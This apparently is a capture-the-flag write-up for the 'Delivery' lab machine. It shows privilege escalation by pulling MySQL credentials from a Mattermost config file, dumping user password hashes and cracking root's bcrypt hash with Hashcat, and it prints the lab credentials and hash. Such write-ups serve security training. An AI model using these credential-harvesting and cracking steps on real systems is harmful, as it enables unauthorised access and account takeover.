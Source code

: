 # Alternative way to exploit Delivery

## Privilege Escalation

Instead of using local Brute-Force on the root password, it is possible to search for password hashes in the **Mattermost** configuration and crack those.

The configuration file _/opt/mattermost/config/config.json_ contains credentials for the MySQL database:
```
(...)
"SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
(...)
```

Login into the database:
```
mysql -u mmuser -p
```

Enumerating the database for usernames and hashes:
```
MariaDB [(none)]> show databases;
MariaDB [(none)]> use mattermost;

MariaDB [mattermost]> show tables;
MariaDB [mattermost]> describe Users;

MariaDB [mattermost]> select Username,Email,Password from Users;
```
```
+----------------------------------+-------------------------+--------------------------------------------------------------+
| Username                         | Email                   | Password                                                     |
+----------------------------------+-------------------------+--------------------------------------------------------------+
| root                             | root@delivery.htb       | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
(...)
```

This is a **bcrypt hash** that can be cracked with a rule-based attack in **Hashcat** on the password _"PleaseSubscribe!"_:
```
hashcat -m 3200 delivery.hash password.txt -r /usr/share/hashcat/rules/best64.rule
```

After a while it gets cracked and the password for this hash is:
> PleaseSubscribe!21

It can be used switch users to root!
